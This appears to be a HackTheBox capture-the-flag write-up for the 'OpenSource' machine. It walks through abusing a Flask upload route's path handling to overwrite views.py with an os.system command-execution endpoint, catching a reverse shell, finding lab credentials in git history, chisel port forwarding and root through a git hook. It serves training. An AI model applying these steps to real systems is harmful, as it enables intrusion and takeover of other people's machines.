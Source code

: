 ```yaml
---
title: Opensource writeup
date: 2022-06-25 16:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "chisel", "flask"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/opensource/
image: # Thumbnail 
  src: OpenSource.png
  width: 1000   # in pixels
  height: 400   # in pixels
---               
```

## Summary

## Foothold
We start out by doing an nmap port scan:

```console
# Nmap 7.92 scan initiated Wed Jun  8 16:04:07 2022 as: nmap -sC -sV -o nmap/ini.txt opensource.htb
Nmap scan report for opensource.htb (10.129.160.73)
Host is up (0.067s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
...
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  8 16:05:42 2022 -- 1 IP address (1 host up) scanned in 94.69 seconds
```
The system has 3 ports open, 22 80 and 3000. Port 80 is hosting a flask-based web application based on the http-server-header and port 3000 is hosting an unknown, filtered service. We start out by visitng the web application hosted on port 80:

![welcome page for opensource](welcome.png)
_Landing page for opensource_

The website allows us to download a zip archive containing the source code for the web application. 

The source code contains the following code:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

If we take a look at the `documentation` for the `os.path.join()` method, we gather that "If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component." This means that if we give the application a file named like so `/app/app/views.py`{: .filepath}, it will overwrite the `views.py`{: .filepath} of the app, which in this case is the file that handles the routes of the application. This means if we add a function like 

```python
@app.route('/exec')
def cmd():
    return os.system(request.args.get('cmd'))
```
We can then run commands on the system hosting the application. 

We can use burpsuite to intercept the upload request, and then rename the file.

![burp requests](burp.png)

We then get redirected to the upload page telling us we have successfully uploaded the file:

![Successful upload](upload.png)

If we attempt to access the exec endpoint with the argument "?cmd=ls" we get the following page:

![werkzeug error page](error.png)

This indicate that we successfully overwrote the views.py file, since the application seems to attempt to carry out the command. If we then use a URL encoded python reverse shell we get access to the container hosting the application

```console
┌──(bitis㉿workstation)-[~/htb/Machines/opensource]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.82.65] 53948
/app #         
```

To gain a foothold on the actual system hosting the container, we need to do some more enumeration of the git repo we downloaded earlier. If we run `git branch` on it we see that a dev branch exists. We can then switch branches, check the logs and then differences between the different commits:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/opensource/source]
└─$ git branch
* dev
  public
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/opensource/source]
└─$ git log                                                                                                                                                                                                                             1 ⨯
commit c41fedef2ec6df98735c11b2faf1e79ef492a0f3 (HEAD -> dev)
Author: gituser <gituser@local>
Date:   Thu Apr 28 13:47:24 2022 +0200

    ease testing

commit be4da71987bbbc8fae7c961fb2de01ebd0be1997
Author: gituser <gituser@local>
Date:   Thu Apr 28 13:46:54 2022 +0200

    added gitignore

commit a76f8f75f7a4a12b706b0cf9c983796fa1985820
Author: gituser <gituser@local>
Date:   Thu Apr 28 13:46:16 2022 +0200

    updated

commit ee9d9f1ef9156c787d53074493e39ae364cd1e05
Author: gituser <gituser@local>
Date:   Thu Apr 28 13:45:17 2022 +0200

    initial

┌──(bitis㉿workstation)-[~/htb/Machines/opensource/source]
└─$ git diff ee9d9f1 a76f8f7 
diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json
new file mode 100644
index 0000000..5975e3f
--- /dev/null
+++ b/app/.vscode/settings.json
@@ -0,0 +1,5 @@
+{
+  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
+}
...
```
The commit added the credentials `dev01:Soulless_Developer#2022`. 

Remembering that we found port 3000 in our portscan, but that it was filtered on our machine, we use chisel to port forward port 3000 to our machine. On the victim machine we do the following:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/opensource]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.82.65] 54294
/app # cd /tmp 
cd /tmp
/tmp # ./chisel client -v 10.10.17.182:8000 R:3000:172.17.0.1:3000
./chisel client -v 10.10.17.182:8000 R:3000:172.17.0.1:3000
2022/06/25 19:19:27 client: Connecting to ws://10.10.17.182:8000
2022/06/25 19:19:27 client: Handshaking...
2022/06/25 19:19:28 client: Sending config
2022/06/25 19:19:28 client: Connection error: server: Server cannot listen on R:3000=>172.17.0.1:3000
2022/06/25 19:19:28 client: Give up
/tmp # ./chisel client -v 10.10.17.182:8001 R:3000:172.17.0.1:3000
./chisel client -v 10.10.17.182:8001 R:3000:172.17.0.1:3000
2022/06/25 19:20:32 client: Connecting to ws://10.10.17.182:8001
2022/06/25 19:20:32 client: Handshaking...
2022/06/25 19:20:33 client: Sending config
2022/06/25 19:20:33 client: Connected (Latency 46.611837ms)
2022/06/25 19:20:33 client: tun: SSH connected

```
On the attacker machine
```console
┌──(bitis㉿workstation)-[~/tools]
└─$ ./chisel server --reverse -p 8001
2022/06/25 21:19:51 server: Reverse tunnelling enabled
2022/06/25 21:19:51 server: Fingerprint 0SM8R8ZA9ESFE6zEmRmfs2LEpK+bGOB/CVvKKez7GZc=
2022/06/25 21:19:51 server: Listening on http://0.0.0.0:8001
2022/06/25 21:20:31 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```
Now anything we send to port 3000 on our machine will be send to port 3000 on the target host. 

When we visit `localhost:3000` we get greeted with the following: 

![gitea service](gitea.png)

We can then use the credentials found previously to login as dev01

![logged into gitea as dev01](loggedin.png)

When looking at the commits of dev01, we find an ssh key:

![dev01 ssh key](sshkey.png)

We can then save this ssh key and log in as dev01 on the target machine via ssh.

## Privilege escalation
Once logged in as dev01, we get and run pspy to snoop on any commands being run. 

```
2022/06/25 19:32:01 CMD: UID=0    PID=22743  | /bin/bash /usr/local/bin/git-sync 
2022/06/25 19:32:01 CMD: UID=0    PID=22744  | git commit -m Backup for 2022-06-25 
2022/06/25 19:32:01 CMD: UID=0    PID=22745  | /bin/bash /usr/local/bin/git-sync 
2022/06/25 19:32:01 CMD: UID=0    PID=22748  | git push origin main 
```
Based on the output we can tell that the root user is running git commands such as commit and push. If we consult GTFObins, we can tell that this is exploitable by adding a command we wish to run as root to a file named `.git/hooks/pre-commit.sample`{: .filepath}, renaming it and then waiting for root to commit something. 

![GTFObins](gtfobins.png)  

Once this is done we have root access. Rooted! 